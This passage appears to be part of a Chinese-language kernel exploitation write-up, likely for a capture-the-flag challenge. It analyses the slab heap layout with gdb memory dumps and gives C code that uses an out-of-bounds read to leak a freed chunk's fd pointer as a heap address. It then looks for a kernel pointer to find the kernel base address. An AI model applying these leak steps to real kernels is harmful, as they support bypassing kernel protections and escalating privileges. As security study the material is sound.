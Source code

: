 堆地址连续，每个堆块0x100大小。

在`free` 1、3堆块后，pool堆分布：

```assembly
gdb-peda$ x/10gx $1
0xffffffffc0035400:	0xffff9588c017b500	0x0000000000000100
0xffffffffc0035410:	0x0000000000000000	0x0000000000000100
0xffffffffc0035420:	0xffff9588c017b700	0x0000000000000100
0xffffffffc0035430:	0x0000000000000000	0x0000000000000100
0xffffffffc0035440:	0xffff9588c017b900	0x0000000000000100
```

其中释放的1、3堆块的关系

```assembly
gdb-peda$ x/4gx 0xffff9588c017b600
0xffff9588c017b600:	0xffff9588c017ba00	0x0000000000000000
0xffff9588c017b610:	0x0000000000000000	0x0000000000000000
gdb-peda$ x/4gx 0xffff9588c017b800
0xffff9588c017b800:	0xffff9588c017b600	0x0000000000000000
0xffff9588c017b810:	0x0000000000000000	0x0000000000000000
```

可以看到释放后的堆块`fd`字段保存了下一个空闲堆块，且符合`FILO`（先进后出）。

##### 堆地址泄漏

基于上面对`slab`堆分布的分析，利用溢出造成的越界读，可以泄漏已经释放堆块的`fd`字段，造成堆地址泄漏。

例如，通过读堆块4，利用offset向下溢出，读已经被释放的堆块3的fd字段，即可泄漏得到堆块1的堆地址。

泄漏代码：

```c
	read_object(4, mem, 0x100, -0x100);
	heap_addr = ((size_t*)mem)[0];
	printf("[*] Leaked heap addr: 0x%lx\n", heap_addr);
```

##### 内核基地址

在已分配的第一个堆块前的内存，是已经被内核使用的内存，其中很有可能存在内核指针值。

```assembly
gdb-peda$ x/10gx 0xffff9bf0c017b500-0x200
0xffff9bf0c017b300:	0xffff9bf0c017b378	0x0000000100000000
0xffff9bf0c017b310:	0x0000000000000001	0x0000000000000000
0xffff9bf0c017b320:	0xffff9bf0c017b378	0xffffffff89849ae0
0xffff9bf0c017b330:	0xffffffff89849ae0	0xffff9bf0c0015100
0xffff9bf0c017b340:	0xffff9bf0c017b358	0x0000000000000000
```

对比`/proc/kallsyms`

```
/home/pwn # cat /proc/kallsyms | grep ffffffff89849ae0
ffffffff89849ae0 d sysctl_table_root
```
